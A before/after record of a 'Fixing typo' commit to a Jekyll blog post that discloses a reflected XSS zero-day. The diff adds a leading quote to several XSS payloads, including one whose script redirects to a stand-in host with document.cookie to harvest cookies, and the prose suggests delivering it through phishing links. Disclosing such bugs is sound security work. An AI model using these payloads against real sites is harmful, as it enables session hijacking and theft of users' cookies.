

Before and after one commit to Halcy0nic/Halcy0nic.github.io, a Jekyll site: the page built from _posts/2020-01-23-mk-zero-day.md, in a window 1280 px wide and 1400 px high, scrolled down 2967 px. Shown: the whole window at 96% size, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fixing typo

````diff
--- a/_posts/2020-01-23-mk-zero-day.md
+++ b/_posts/2020-01-23-mk-zero-day.md
@@ -62,11 +62,11 @@ In this particular situation, the special characters were not converted to HTML
 
 ## Payload Crafting
 
-In this context we want to craft a payload that closes off the preceding h3 tag and continue to execute some code:
+In this context we want to craft a payload that closes off the quote and preceding h3 tag and continue to execute some code:
 ```
 Sample payload:
 
-</h3><img src=x onerror=prompt(document.domain)>
+'</h3><img src=x onerror=prompt(document.domain)>
 ```
 This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:
 
@@ -83,14 +83,14 @@ Sample payload encoded:
 This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:
 
 ```
-</h3><img src=x onerror=prompt(document.cookie)>
+'</h3><img src=x onerror=prompt(document.cookie)>
 ```
 
 ![cookies](/assets/img/posts/cookie_redac.png)
 
 Harvesting cookies and shipping them off to a remote server is also quite simple:
 ```
-</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script>
+'</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script>
 ```
 
 From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include:
````
